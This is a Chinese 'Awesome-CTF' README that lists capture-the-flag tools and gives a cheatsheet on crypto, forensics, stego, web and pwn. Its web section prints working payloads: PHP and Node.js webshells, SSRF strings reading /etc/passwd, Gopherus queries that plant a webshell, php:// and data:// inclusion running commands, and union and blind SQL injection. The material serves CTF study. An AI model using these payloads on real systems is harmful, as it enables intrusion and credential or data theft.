


# Awesome-CTF
**【免责声明】本仓库所涉及的技术、思路和工具仅供安全技术研究，任何人不得将其用于非授权渗透测试，不得将其用于非法用途和盈利，否则后果自行承担。**

## 开源导航

- CTF Wiki：https://ctf-wiki.org/
- CTF Hub：https://www.ctfhub.com/
- CTF Time：https://ctftime.org/
- 攻防世界：https://adworld.xctf.org.cn/
- Hacker 101：https://www.hacker101.com/
- Cryptopals：密码学练习题目 https://cryptopals.com/
- Awesome-ctf：https://github.com/apsdehal/awesome-ctf
- CTF Tools：https://github.com/zardus/ctf-tools
- 近期赛事：https://su-sanha.cn/events/ API：http://event.ctf.probius.xyz/cn_CTF

## Crypto

### 综合工具

- CyberChef：综合编解码及加密，可本地部署 https://github.com/gchq/CyberChef
- OK Tools在线工具：https://github.com/wangyiwy/oktools
- CTF 在线工具：http://www.hiencode.com/
- ctfcode：随波逐流工作室 CTF编码工具 http://1o1o.xyz/bo_ctfcode.html
- XSSEE：在线综合编解码 https://evilcos.me/lab/xssee/
- MeTools：在线综合编解码 http://www.metools.info/code/quotedprintable231.html

### 密码学

- 摩斯电码：http://moersima.00cha.net/
- 摩斯电码：http://www.zhongguosou.com/zonghe/moersicodeconverter.aspx
- 栅栏密码：https://www.qqxiuzi.cn/bianma/zhalanmima.php
- 猪圈密码：http://www.hiencode.com/pigpen.html
- 零宽字符：http://330k.github.io/misc_tools/unicode_steganography.html
- quipqiup：在线古典密码词频爆破 https://www.quipqiup.com/

### 数学计算

- yafu：RSA解题中的因式分解 https://github.com/bbuhrow/yafu
- factordb：在线大数分解数据库 http://factordb.com/
- 在线求解线性方程组：http://www.yunsuan.info/matrixcomputations/solvelinearsystems.html  

### 编解码

- MD5 Hash：https://www.somd5.com/
- GB2312：http://code.mcdvisa.com/
- Unicode字符表：https://www.52unicode.com/enclosed-alphanumerics-zifu
- Unicode：https://www.compart.com/en/unicode/
- UUencode：http://web.chacuo.net/charsetuuencode
- XXencode：输入文本以每三个字节为单位进行编码 http://web.chacuo.net/charsetxxencode
- Escape/Unescape：https://tool.chinaz.com/tools/escape.aspx
- HTML实体编码：https://zh.rakko.tools/tools/21/
- Base64填充位隐写读取：https://github.com/cjcslhp/wheels/tree/master/b64stego

## Misc

### 综合工具

- PuzzleSolver：Misc工具 https://github.com/Byxs20/PuzzleSolver

### 图片分析

#### 图片隐写

- Stegsolve：图片隐写查看器 http://www.caesum.com/handbook/stego.ht
- Stegonline：Stegsolve在线版 https://stegonline.georgeom.net/upload
- F5-steganography：隐写工具 https://github.com/matthewgao/F5-steganography
- OutGuess：隐写工具 https://github.com/crorvick/outguess
- Silenteye：隐写工具 https://achorein.github.io/silenteye/
- zsteg：检测PNG和BMP图片隐写数据 https://github.com/zed-0xff/zsteg
- PNGDebugger：读取png文件头，检查CRC https://github.com/rvong/png-debugger#pngdebugger

#### 图片EXIF

- 图虫在线EXIF查看器：https://exif.tuchong.com/
- EXIF查看器：exiftool https://exiftool.org/
- Magicexif元数据编辑器：https://www.magicexif.com/
- TweakPNG：png图像编辑器，修改元数据 https://entropymine.com/jason/tweakpng/

#### 二维码

- 在线绘制二维码/汉信码：https://www.pixilart.com/draw?ref=home-page
- 在线绘制二维码：https://merricx.github.io/qrazybox/
- 在线扫描一维码：https://online-barcode-reader.inliteresearch.com/

#### 图片杂项

- Ezgif：在线分帧 https://ezgif.com/split
- 盲水印提取：https://github.com/chishaxie/BlindWaterMark
- OCR在线识别：https://web.baimiaoapp.com/
- 解决拼图问题：montage+gaps https://github.com/nemanja-m/gaps

### 音视频分析

- Audacity：音频隐写 https://www.audacityteam.org/
- Mp3Stego：Mp3音频隐写 https://www.petitcolas.net/steganography/mp3stego/

### 流量分析

- Pcap流量包在线修复：http://f00l.de/hacking/pcapfix.php
- knm：鼠标键盘流量包取证 https://github.com/FzWjScJ/knm

### 取证分析

- Volatility：内存取证工具 https://github.com/volatilityfoundation/volatility
- DiskGenius：磁盘取证工具 https://www.diskgenius.cn/
- Sleuth Kit：磁盘取证工具 https://github.com/sleuthkit/sleuthkit
- Autopsy：取证浏览器 https://www.autopsy.com/
- GIMP：开源图像编辑器 配合Volatility导出的.dmp使用 https://www.gimp.org/
- ElcomSoft Distributed Password Recovery：BitLocker解密 https://www.elcomsoft.com/edpr.html

### 日志分析

- ProcessMonitor：进程监视器 https://learn.microsoft.com/zh-cn/sysinternals/downloads/procmon
- Event log explorer：日志查看器 https://www.eventlogxp.com/

### 数据处理

- 010 Editor：https://www.sweetscape.com/010editor/
  - 010 Editor 插件模板下载：例如 ELF.bt https://www.sweetscape.com/010editor/repository/templates/

- Binwalk：https://github.com/ReFirmLabs/binwalk
- 在线正则表达式：https://c.runoob.com/front-end/854/
- 在线正则表达式：https://regex101.com/

### 密码破解

- Advanced Office Password Recovery（AOPR）：破解office文档密码 https://www.elcomsoft.com/aopr.html
- Advanced Archive Password Recovery（ARCHPR）：破解zip和rar文件密码 https://www.elcomsoft.com/archpr.html
- crc32：CRC32爆破 https://github.com/theonlypwner/crc32
- ZipCenOp：zip伪加密破解 
- Ziperello：zip压缩包密码破解

### 其他

- 在线正则英语单词：https://regdict.com/
- 数独求解器：https://shudu.gwalker.cn/

## Web

### 信息泄露

- .git 信息泄露：https://github.com/BugScanTeam/GitHack
- .svn/.hg/.cvs 信息泄露：https://github.com/kost/dvcs-ripper

### 绕过

- localhost绕过：127.0.0.1  >>> 2130706433 https://www.browserling.com/tools/ip-to-dec

### 其他

- D盾：Webshell查杀 https://www.d99net.net/

## Pwn

### Pwntools

- Pwntools：CTF框架和漏洞利用开发库 https://github.com/Gallopsled/pwntools

### IDA

- idaplugins-list：IDA 插件 https://github.com/onethawt/idaplugins-list

### GDB

- Pwndbg：GDB 插件 https://github.com/pwndbg/pwndbg

- gdb-dashboard：GDB 插件 https://github.com/cyrus-and/gdb-dashboard

### ROP Gadget

- ROPgadget：返回导向式编程 寻找 Gadget https://github.com/JonathanSalwan/ROPgadget
- Ropper：返回导向式编程 寻找 Gadget https://github.com/sashs/Ropper

## Reverse

### ELF/EXE逆向

- Cutter：https://cutter.re/
- IDA：https://hex-rays.com/ida-pro/
- x64DBG：https://x64dbg.com/
- Ollydbg：https://www.ollydbg.de/
- bindiff：二进制比对工具 https://www.zynamics.com/software.html
- angr：二进制分析 https://github.com/angr/angr

### Android逆向

- jadx：https://github.com/skylot/jadx
- JEB：https://www.pnfsoftware.com/
- GDA：https://github.com/charles2gan/GDA-android-reversing-Tool

### Java逆向

- jd-gui：https://github.com/java-decompiler/jd-gui

### Python逆向

- py2exe：打包工具 https://www.py2exe.org/
- pyInstaller：打包工具 https://pyinstaller.org/
- unpy2exe：py2exe 打包程序中提取 .pyc https://github.com/matiasb/unpy2exe
- pyinstxtractor：pyInstaller 打包程序中提取 .pyc https://github.com/extremecoders-re/pyinstxtractor
- uncompyle6：字节码文件（.pyc）反编译为源代码（.py） https://github.com/rocky/python-uncompyle6/

### Rust 逆向

- rust-reversing-helper：https://github.com/cha5126568/rust-reversing-helper

### Go 逆向

- golang_loader_assist：https://github.com/strazzere/golang_loader_assist
- IDAGolangHelper：https://github.com/sibears/IDAGolangHelper

### 查壳脱壳

- ExeinfoPE：查壳工具 https://github.com/ExeinfoASL/ASL/raw/master/exeinfope.zip
- PEiD：查壳工具 https://www.aldeid.com/wiki/PEiD
- UPX：UPX 脱壳工具 https://github.com/upx/upx

### 符号执行

- Angr：https://docs.angr.io/ 官方实例：https://docs.angr.io/en/latest/examples.html

### IDA签名库

- sig-database：IDA FLIRT 签名库 https://github.com/push0ebp/sig-database
- FLIRTDB：IDA FLIRT 签名库 https://github.com/Maktm/FLIRTDB

### 其他

- 挖矿收益计算器：https://minersns.com/tools/jsqlist

# Cheatsheet

## Crypto

### Hash

#### MD5碰撞

```
%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
```

```
%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

### 加密/编码特征

#### Base64

一般只包含以下字符：

```
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/
```

#### AES

密钥长度是128bit或者256bit，长度都是16字节。

密文是128或256的整倍数。

#### DES

密钥长度固定8字节。密钥需要运行初始化函数进行单独初始化。

分段加密，每8字节分段。

#### RSA

非对称加密算法，密钥需要单独初始化。

密钥长度一般很长，存储格式为base64文本。

#### ECC

密钥需要单独初始化。

#### Unicode

源文本：The

```
&#x [Hex]: &#x0054;&#x0068;&#x0065;
&# [Decimal]: &#00084;&#00104;&#00101;
\U [Hex]: \U0054\U0068\U0065
\U+ [Hex]: \U+0054\U+0068\U+0065
```

## Misc

### 常用命令

```
# 判断文件类型
> file Exploit.class
Exploit.class: compiled Java class data, version 52.0 (Java 1.8)
```

```
# 分离提取隐写文件
binwalk
foremost
```

```
# 用于读取、转换并输出数据
dd
```

```
# 私钥解密
openssl rsautl -decrypt -in whoami.txt -inkey private.key out flag.txt
```

```
# 判断伪加密
java -jar ZipCenOp.jar xxx.zip
```

### 图片分析

#### 分析步骤

1. 首先查看EXIF信息。
2. 如果图片在windows下能查看，kali下无法查看，说明格式数据错误，可以修改图片的长宽高来显示隐藏图像。
3. 通过binwalk或者foremost查看是否有隐藏文件（查看文件头，可能存在**隐藏文件**的情况，例如文件里包含一个 JPG 图片，则提取文件头 `FF D8 FF` 到文件尾 `FF D9` 即可提取出 JPG 文件）。
4. 通过stegsolve进行色差分析，查看zlib数据段。
5. 查看文件是否包含有损坏的其他文件，查找文件中是否有可疑字符串，例如flag、key、pass。
6. 验证是否存在隐写，例如LSB隐写。

#### 图片拼接

沿水平方向拼接：

```
convert -append *.png ../flag.png
```

沿垂直方向拼接：

```
convert +append *.png ../flag.png
```

分割图片恢复原图脚本：

- [image_merge1.py](https://github.com/Threekiii/Awesome-CTF/blob/master/scripts/misc/image_merge1.py)
- [image_merge2.py](https://github.com/Threekiii/Awesome-CTF/blob/master/scripts/misc/image_merge2.py)

#### jpg长宽修改

```
修改图片高度， FF C0后的第4个字节和第5个字节
```

#### png长宽修改

```
修改0x14到0x17的四个字节
```



修改后：



#### 位深隐写

图片位深隐写脚本：

- [stega_8bit.py](https://github.com/Threekiii/Awesome-CTF/blob/master/scripts/misc/stega_8bit.py)

图片常见深度有：

- 8Bit（包含四个通道：RGBA，每个通道分别占有2bit）
- 12Bit（包含三个通道：RGB，每个通道分别占有4bit）
- 24Bit（包含三个通道：RGB，每个通道分别占有8bit）
- 32Bit（包含四个通道：RGB，每个通道分别占有8bit）

图片位深隐写特征：

- 图片→属性→详细信息，位深度可能为48bit
- 使用stegsolve时发现A通道空白（说明该图片只有三个通道RGB，每个通道深度是48/3=16bit。图片显示最高通道就只有8bit，得出该图片隐藏了另外8bit的信息）

#### 二维码

二维码010101绘制：

- [qrcode_painter_1.py](https://github.com/Threekiii/Awesome-CTF/blob/master/scripts/misc/qrcode_painter_1.py)
- [qrcode_painter_2.py](https://github.com/Threekiii/Awesome-CTF/blob/master/scripts/misc/qrcode_painter_2.py)

### 流量分析

#### wireshark

- 过滤IP：

```
ip.src eq xxx.xxx.xxx.xxx or ip.dst eq xxx.xxx.xxx.xxx
```

```
ip.addr eq xxx.xxx.xxx.xxx
```

- 过滤端口：

```
tcp.port eq 80 or udp.port eq 80
```

```
tcp.dstport == 80 or tcp.srcport == 80
```

```
tcp.port >=1 and tcp.port <=80
```

- 过滤协议：

```
tcp/udp/arp/icmp/http/ftp/dns/ip
```

- 过滤MAC：

```
eth.dst == A0:04:C6:85:63:73
```

- HTTP过滤：

```
http.request.method == "GET"
```

```
http.request.method == "POST"
```

```
http.request.uri == "/img/logo.png"
```

```
http contains "GET"
```

```
http contains "HTTP/1."
```

```
http.request.method == "GET" && http contains "User-Agent:"
```

#### tshark

```
tshark -r **.pcap –Y ** -T fields –e ** | **** > data
----------------------------------------------------------------
tshark -r capture.pcapng -T fields -e usb.capdata > data2.txt
```

```
Usage:
  -Y <display filter>      packet displaY filter in Wireshark display filter
                           syntax
  -T pdml|ps|psml|json|jsonraw|ek|tabs|text|fields|?
                           format of text output (def: text)
  -e <field>               field to print if -Tfields selected (e.g. tcp.port,
                           _ws.col.Info)
```

通过`-Y`过滤器 (与 wireshark 一致), 然后用`-T filds -e`配合指定显示的数据段 (比如 usb.capdata)

`-e`后的参数不确定可以由 `wireshark` 右击需要的数据选中后得到

配合python使用：

```python
from os import system

system("tshark -r icmp_data.pcap -Y \"icmp && icmp.type==8\" -T fields -e data > flag.txt")
f = open('flag.txt', 'r')
flag = ''
for line in f.readlines():
    flag += chr(int(line[16:18], 16))
print(flag)
f.close()
```

### 压缩包分析

不同压缩包分析方法分别用于：

1. **ZIP暴力破解**：文件的密码为纯数字且位数不多时。
2. **ZIP伪加密**：ZIP文件的压缩源文件目录中09 00修改为00 00，可以成功解压时。
3. **CRC32攻击**：当文件数据少且文件大小较小时。
4. **明文攻击**：加密文件中存在部分已知文件（>12字节）时。

一些tips：

- 文件打不开，显示“压缩文件已损坏”时，尝试winrar工具中的修复功能进行修复。

#### zip伪加密

zip文件组成：

- 压缩源文件数据区 50 4B 03 04（0x04034b50）
- 压缩源文件目录区 50 4B 01 02（0x02014b50）
- 压缩源文件目录结束标志50 4B 05 06（0x06054b50）

压缩源文件数据区：

```
50 4B 03 04：这是头文件标记（0x04034b50）
14 00：解压文件所需 pkware 版本
09 00：全局方式位标记（有无加密）
08 00：压缩方式
50 A3：最后修改文件时间
A5 4A：最后修改文件日期
21 38 76 64：CRC-32校验（1480B516）
19 00 00 00：压缩后尺寸（25）
17 00 00 00：未压缩尺寸（23）
08 00：文件名长度
00 00：扩展记录长度
```

压缩源文件目录区：

```
50 4B 01 02：目录中文件文件头标记(0x02014b50)
1F 00：压缩使用的 pkware 版本
14 00：解压文件所需 pkware 版本
09 00：全局方式位标记（有无加密，这个更改这里进行伪加密，改为09 00打开就会提示有密码了）
08 00：压缩方式
50 A3：最后修改文件时间
A5 4A：最后修改文件日期
21 38 76 65：CRC-32校验（1480B516）
19 00 00 00：压缩后尺寸（25）
17 00 00 00：未压缩尺寸（23）
08 00：文件名长度
24 00：扩展字段长度
00 00：文件注释长度
00 00：磁盘开始号
00 00：内部文件属性
20 00 00 00：外部文件属性
00 00 00 00：局部头部偏移量
```

压缩文件源文件目录结束区：

```
50 4B 05 06：目录结束标记(0x06054b50)
00 00：当前磁盘编号
00 00：目录区开始磁盘编号
01 00：本磁盘上纪录总数
01 00：目录区中纪录总数
59 00 00 00：目录区尺寸大小
3E 00 00 00 00：目录区对第一张磁盘的偏移量
00 00：ZIP文件注释长度
```

真假加密：

```
# 无加密 
压缩源文件数据区的全局加密应当为00 00
且压缩源文件目录区的全局方式位标记应当为00 00
```

```
# 假加密
压缩源文件数据区的全局加密应当为00 00
且压缩源文件目录区的全局方式位标记应当为09 00
```

```
# 真加密
压缩源文件数据区的全局加密应当为09 00
且压缩源文件目录区的全局方式位标记应当为09 00
```

### 日志分析

#### Windows常见安全事件

- 检索4624/4625登录事件，爆破时间点与登录事件点一一对应的可能是异常账户。

```
4624  --登录成功   
4625  --登录失败  
4634 -- 注销成功
4647 -- 用户启动的注销   
4672 -- 使用超级用户（如管理员）进行登录
```

### 取证分析

#### 查看文件内容

```
$ file <filename>
```

```
$ mmls <filename>
```

#### 分区挂载

先查看文件内容：

```
$ mmls <filename>  
DOS Partition Table
Offset Sector: 0
Units are in 512-byte sectors

      Slot      Start        End          Length       Description
000:  Meta      0000000000   0000000000   0000000001   Primary Table (#0)
001:  -------   0000000000   0000000127   0000000128   Unallocated
002:  000:000   0000000128   0000198783   0000198656   NTFS / exFAT (0x07)
003:  -------   0000198784   0000204799   0000006016   Unallocated
```

偏移 128 挂载 NTFS 分区：

```
$ mkdir /mnt/foo ; mount <fielname> /mnt/foo -o offset=$((128*512))
```

#### volatility使用

查看内存镜像系统摘要：

```
python2 vol.py -f <filename.raw> imageinfo
```

扫描镜像进程：

```
python2 vol.py -f <filename.raw> --profile=<profile> psscan
```

```
python2 vol.py -f <filename.raw> --profile=<profile> pslist
```

导出进程数据（.dmp文件）：

```
python2 vol.py -f <filename.raw> --profile=<profile> memdump -p <pid> -D ./
```

扫描文件：

```
python2 vol.py -f <filename.raw> --profile=<profile> filescan | grep zip
```

```
python2 vol.py -f <filename.raw> --profile=<profile> filescan | grep txt
```

```
python2 vol.py -f <filename.raw> --profile=<profile> filescan | grep flag
```

导出文件：

```
python2 vol.py -f <filename.raw> --profile=<profile> dumpfiles -Q <文件地址0x00> -D outfile
```

#### GIMP使用

volatility dump进程，将.dmp后缀改为.data，用GIMP打开，调整高度、位移、宽度。

### 数据分析

#### 正则表达式

##### 中国手机号

- 手机号为11 位10进制数字字符串。

```
^(13[0-9]|14[01456879]|15[0-35-9]|16[2567]|17[0-8]|18[0-9]|19[0-35-9])\d{8}$
```

- 带中划线的手机号码

```
^[+]{0,1}(d){1,3}[ ]?([-]?((d)|[ ]){1,12})+$
```

##### 电话号码

- "XXX-XXXXXXX"、"XXXX-XXXXXXXX"

```
(\(\d{3,4}\)|\d{3,4}-|\s)?\d{8}
```

- "XXX-XXXXXXX"、"XXXX-XXXXXXXX"、"XXX-XXXXXXX"、"XXX-XXXXXXXX"、"XXXXXXX"和"XXXXXXXX"

```
^(\(\d{3,4}-)|\d{3.4}-)?\d{7,8}$
```

- 国内电话号码(0511-4405222、021-87888822)

```
\d{3}-\d{8}|\d{4}-\d{7}
```

- 支持手机号码，3-4位区号，7-8位直播号码，1－4位分机号

```
 ((\d{11})|^((\d{7,8})|(\d{4}|\d{3})-(\d{7,8})|(\d{4}|\d{3})-(\d{7,8})-(\d{4}|\d{3}|\d{2}|\d{1})|(\d{7,8})-(\d{4}|\d{3}|\d{2}|\d{1}))$)
```

##### 身份证号

- 15位、18位数字，最后一位是校验位，可能为数字或字符X

```
(^\d{15}$)|(^\d{18}$)|(^\d{17}(\d|X|x)$)
```

##### 国际移动设备识别码（IMEI）

- IMEI（15 位十进制数字：14 位加上一个校验位）用于表示有关设备来源、型号和序列号的信息。
- 15位由TAC(+FAC) + SNR + CD组成。末尾采用Luhn 校验位。

```
/^\d{15,17}$/
```

##### 银行卡号（BankCard）

- 银行卡的长度限制在13-19位。
- 银行卡号一般有五部分组成：发卡机构标识代码（BIN）、地区代码、卡种类码、顺序码、校验码。
- 校验码采用Luhn算法计算。

```
/^([1-9]{1})(\d{12}|\d{18})$/
```

##### IP地址（IPv4）

- 由四段数字组成，例如192.168.0.1，其中的数字都是十进制的数字，中间用实心圆点分隔。

```
((2(5[0-5]|[0-4]\d))|[0-1]?\d{1,2})(\.((2(5[0-5]|[0-4]\d))|[0-1]?\d{1,2})){3}
```

```
((?:(?:25[0-5]|2[0-4]\d|[01]?\d?\d)\.){3}(?:25[0-5]|2[0-4]\d|[01]?\d?\d))
```

##### 域名

```
[a-zA-Z0-9][-a-zA-Z0-9]{0,62}(\.[a-zA-Z0-9][-a-zA-Z0-9]{0,62})+\.?
```

```
^((http:\/\/)|(https:\/\/))?([a-zA-Z0-9]([a-zA-Z0-9\-]{0,61}[a-zA-Z0-9])?\.)+[a-zA-Z]{2,6}(\/)
```

##### URL

```
[a-zA-z]+://[^\s]* 或 ^http://([\w-]+\.)+[\w-]+(/[\w-./?%&=]*)?$
```

##### 邮箱地址（Email）

```
^\w+([-+.]\w+)*@\w+([-.]\w+)*\.\w+([-.]\w+)*$
```

```
^[a-zA-Z0-9_-]+@[a-zA-Z0-9_-]+(\.[a-zA-Z0-9_-]+)+$
```


#### 常见文件头

| 文件类型                         | 文件头                                    | 文件尾               |
| -------------------------------- | ----------------------------------------- | -------------------- |
| JPEG ( `jpg` )                   | FF D8 FF                                  | FF D9                |
| PNG ( `png` )                    | 89 50 4E 47                               | AE 42 60 82          |
| GIF ( `gif` )                    | 47 49 46 38                               | 00 3B                |
| TIFF ( `tif` )                   | 49 49 2A 00                               |                      |
| Windows Bitmap ( `bmp` )         | 42 4D                                     |                      |
| ZIP Archive ( `zip` )            | 50 4B 03 04                               | 50 4B                |
| RAR Archive ( `rar` )            | 52 61 72 21                               | 07 00                |
| CAD ( `dwg` )                    | 41 43 31 30                               |                      |
| Adobe Photoshop ( `psd` )        | 38 42 50 53                               |                      |
| Rich Text Format ( `rtf` )       | 7B 5C 72 74 66                            |                      |
| XML ( `xml` )                    | 3C 3F 78 6D 6C                            |                      |
| HTML ( `html` )                  | 3C 68 74 6D 6C                            | 3C 2F 68 74 6D 6C 3E |
| Email thorough only ( `eml` )    | 44 65 6C 69 76 65 72 79 2D 64 61 74 65 3A |                      |
| Outlook Express ( `dbx` )        | CF AD 12 FE C5 FD 74 6F                   |                      |
| Outlook ( `pst` )                | 21 42 44 4E                               |                      |
| MS Word/Excel ( `xls` or `doc` ) | D0 CF 11 E0                               |                      |
| MS Access ( `mdb` )              | 53 74 61 6E 64 61 72 64 20 4A             |                      |
| WordPerfect ( `wpd` )            | FF 57 50 43                               |                      |
| Postscript ( `eps` or `ps` )     | 25 21 50 53 2D 41 64 6F 62 65             |                      |
| Adobe Acrobat ( `pdf` )          | 25 50 44 46 2D 31 2E                      |                      |
| Quicken ( `qdf` )                | AC 9E BD 8F                               |                      |
| Windows Password ( `pwl` )       | AC 9E BD 8F                               |                      |
| Wave ( `wav` )                   | 57 41 56 45                               |                      |
| AVI ( `avi` )                    | 41 56 49 20                               |                      |
| AVI ( `avi` )                    | 41 56 49 20                               |                      |
| Real Audio ( `ram` )             | 2E 72 61 FD                               |                      |
| Real Media ( `rm` )              | 2E 52 4D 46                               |                      |
| MPEG ( `mpg` )                   | 00 00 01 BA                               |                      |
| MPEG ( `mpg` )                   | 00 00 01 B3                               |                      |
| Quicktime ( `mov` )              | 6D 6F 6F 76                               |                      |
| Windows Media ( `asf` )          | 30 26 B2 75 8E 66 CF 11                   |                      |
| MIDI ( `mid` )                   | 4D 54 68 64                               |                      |

## Web

### 常用命令

#### 一句话木马

```
<?php @eval($_POST['shell']);?>
```

#### Nodejs Webshell

```
<%= process.mainModule.require("child_process").execSync("cat /flag").toString() %>
```

#### 利用/proc目录获取信息

```
# 获取目标当前进程的运行目录与目录里的文件
ls -al /proc/self/cwd
ls /proc/self/cwd
```

```
# 获取当前环境变量
cat /proc/self/environ
```

```
# 获取当前启动进程的完整命令
cat /proc/self/cmdline
```

### 信息泄露

#### .git 信息泄露

```
# 1. 恢复源码
python githack.py http://target.com

# 2. 查看log
git log

# 3. git reset恢复版本 / git stash还原文件
git reset --hard 053dxxxxxxxxxxxxxxxxxxxxxxxxxxx645f
或：
git stash list
git stash pop
```

### SSRF

#### Gopherus

```
## Usage
|        Command           |        Description             |
|--------------------------|--------------------------------| 
|  gopherus --exploit      |    Arguments can be  :         |
|                          |    --exploit mysql             |
|                          |    --exploit postgresql        |
|                          |    --exploit fastcgi           |
|                          |    --exploit redis             |
|                          |    --exploit zabbix            |
|                          |    --exploit pymemcache        |
|                          |    --exploit rbmemcache        |
|                          |    --exploit phpmemcache       |
|                          |    --exploit dmpmemcache       |
|                          |    --exploit smtp              |
```

```
# mysql
> python2 gopherus.py --exploit mysql
---------------------------------------------
Give MySQL username: root
Give query to execute: select "<?php phpinfo();?>" into outfile "/var/www/html/gopher.php"
```

```
select "<?php @eval($_POST[c]);?>" into outfile "/var/www/html/gopher.php"
```

#### file/http/dict协议

- file

```
file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd
ssrf.php?url=file:///etc/passwd
```

- http

```
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

- dict

```
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

#### Bypass

- URL Bypass

```
?url=http://notfound.ctfhub.com@127.0.0.1/flag.php
```

- IP Bypass

```
?url=http://127.0.0.1:80
?url=http://localhost:22
?url=http://[::]:80/  >>>  ?url=http://127.0.0.1
?url=http://example.com@127.0.0.1
?url=http://127.0.0.1.xip.io/
?url=http://127。0。0。1  >>>  ?url=http://127.0.0.1
?url=http://0/

# 十六进制、八进制转换
http://127.0.0.1  >>>  http://0177.0.0.1/

# 转换为小数 https://www.browserling.com/tools/ip-to-dec
http://127.0.0.1  >>>  http://2130706433/
```

- 302 Redirector Bypass（互联网上的`sudo.cc`服务默认重定向`127.0.0.1`）

```
?url=http://sudo.cc/flag.php
```

- DNS重绑定：https://lock.cmpxchg8b.com/rebinder.html

```
?url=http://7f000001.c0a80001.rbndr.us/flag.php
```

### 本地文件包含

```
index.php?path=php://filter/read=convert.base64-encode/resource=flag.php
```

### SQL注入

SQL注入流程：判断注入点→判断字段个数→获取数据库名→获取表名→获取字段名→获取表内容。

```
admin' or 1=1 --  # --后加空格
```

#### union注入

```
1. 判断列数
?id=1 order by 3
```

```
2. 判断回显
?id=-1 union select 1,2,3
```

```
3. 获取当前数据库
?id=-1 union select 1,2,database()
```

```
4. 获取所有库名
?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata
```

```
5. 获取数据表名
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='test'
```

```
6. 获取列名
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='test' and table_name='users'
```

```
7. 获取字段信息
?id=-1 union select 1,2,group_concat(username,'~',password) from test.users
```

#### 盲注

```
1. 测试语句
?id=1 and 1=1
?id=1 and 1=2
```

```
2. 判断库名长度
?id=1 and length(database())=5
```

```
3. 二分法获取库名
?id=1 and ascii(substr(database(),1,1))>120
?id=1 and ascii(substr(database(),1,1))=120
```

```
4. 判断表的数量
?id=1 and (select count(*) tables from information_schema.tables where table_schema='test')=4
```

```
5. 获取表名长度
?id=1 and length((select table_name from information_schema.tables where table_schema='test' limit 0,1))=6
```

```
6. 获取表名
?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema='test' limit 0,1),1,1))=101
```

```
7. 判断列数
?id=1 and (select count(*) columns from information_schema.columns where table_schema='test' and table_name='users')=3
```

```
8. 获取第一列名长度
?id=1 and length((select column_name from information_schema.columns where table_schema='test' and table_name='users' limit 0,1))=2
```

```
9. 获取列名
?id=1 and ascii(substr((select column_name from information_schema.columns where table_schema='test' and table_name='users' limit 0,1),1,1))=120
```

### PHP

#### php伪协议

file协议：

```
http://ip:port/readme.php?filename=file:///var/log/auth.log
```

filter协议：

```
http://ip:port/readme.php?filename=php://filter/read/convert.base64-encode/resource=./index.php(或者其他读取文件中含有php代码)
```

filter+file协议：

```
http://ip:port/readme.php?filename=php://filter/read/convert.base64-encode/resource=file:///etc/passwd
```

input协议：

```
http://ip:port/readme.php?filename=php://www.test.com?filename=php://input

# POST方式，参数为：
<?php phpinfo();?>
```

data协议：

```
data://text/plain;base64,

# 打印data://的内容
<?php
// 打印 "I love PHP"
echo file_get_contents('data://text/plain;base64,SSBsb3ZlIFBIUAo=');
?>
```

```
# 执行系统命令
# 将 <?php system(whoami)?> base64编码：PD9waHAgc3lzdGVtKHdob2FtaSk/Pg==
http://ip:port/readme.php?filename=data://text/plain;base64,PD9waHAgc3lzdGVtKHdob2FtaSk/Pg==

# 也可以将webshell进行base64编码/或不编码
http://ip:port/readme.php?filename=data://text/plain;base64,<?php eval($_POST["cmd"]);?>
```

#### php自增绕过

```
$_=(_/_._)[1];//A
$_++;//B
$_++;//C
$_1=++$_;//D
$_2=++$_1;//E
$_2++;//F
$_=(_/_._){0};//N
$_++;
$_++;
$_++;
$_++;
$_++;
$_=_.++$_2.$_1.++$_;
$$_{1}($$_{2});//$_GET{1}($_GET{2})
```

## Pwn

### Pwntools

导入包：

```
> from pwn import *
```

建立/关闭连接：

```
# 本地连接
sh = process("./code")
```

```
# 远程连接
sh = remote("127.0.0.1",6666)
```

```
# 关闭连接
sh.close()
```

I/O操作：

```
# 发送数据
sh.send(data)

# 发送一行数据
sh.sendline(data)
```

```
# 接收数据，numb指定接收字节
sh.recv(numb=1024, timeout = default)

# 接收一行数据，keepends表示是否保留行尾\n
sh.recvline(keepends = True)

# 接收数据直到设置的标志出现
sh.recvutil("Hello\n", drop=false)

# 持续接收数据直到EOF
sh.recvall()

# 持续接收数据直到EOF或timeout
sh.recvrepeat(timeout = default)
```

```
# 直接进行交互，在取得shell后使用
sh.interactive()
```

## Reverse

### IDA小端顺序

x86 处理器在内存中按小端（little-endian）顺序（低到高）存放和检索数据。

以 IDA 逆向的某程序为例：

- v8 为数组，大小类型是 8 位，是最小单位，字符串 `:\"AL_RT^L*.?+6/46` 会正向存放在 v8 中：

```
# 正序，数据为 :\"AL_RT^L*.?+6/46
char v8[28]; 
strcpy(v8, ":\"AL_RT^L*.?+6/46");  
```

- v7 为64位整数，大小类型是 64 位，在内存中要按 1 字节拆分成 8 份，HEX 码为 `68 61 72 61 6D 62 65 00`。字符串将是逆序，即 `harambe0`：

```
# 逆序，数据为 harambe0
__int64 v7;  
v7 = 0x65626D61726168LL; //ebmarah
```

### ASCII码表

| ASCII值 | 控制字符 | ASCII值 | 控制字符 | ASCII值 | 控制字符 | ASCII值 | 控制字符 |
| :------ | :------- | :------ | :------- | :------ | :------- | :------ | :------- |
| 0       | NUT      | 32      | (space)  | 64      | @        | 96      | 、       |
